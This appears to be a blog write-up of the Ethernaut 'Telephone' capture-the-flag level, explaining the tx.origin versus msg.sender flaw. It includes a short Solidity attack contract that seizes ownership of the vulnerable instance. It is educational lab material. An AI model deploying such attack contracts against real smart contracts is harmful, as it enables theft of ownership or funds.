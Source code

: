```yaml
---
layout: post
title: Ethernaut - 4.Telephone
date:  2022-08-27
tags: ethernaut
---
```


### Difficulty: 🌕🌑🌑🌑🌑
### Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Writeup
To complete this level, we need to claim ownership of the contract. 
The keypoint is the difference between` tx.origin` and `msg.sender`.

![](https://i.imgur.com/ktsMFfo.png)
1. Get new instance
2. Create a contract 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Telephone {
        function changeOwner(address _owner) external;
    }

    contract AttackTelephone {
        Telephone public targets = Telephone(YOUR_LEVEL_INSTANCE_ADDRESS);

        function attackTelephone() public{
            targets.changeOwner(YOUR_ACCOUNT);
        }
    }
    ```
3. Compile & deploy 
4. Call attackTelephone function. In this scenario, `tx.origin` will be the victim's address while `msg.sender` will be the malicious contract( AttackTelephone )'s address.( `tx.origin != msg.sender` == `true` )
5. `await contract.owner().then(v => v.toString())` to check owner if it is your account.
6. Submit instance ξ( ✿＞◡❛)


### Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)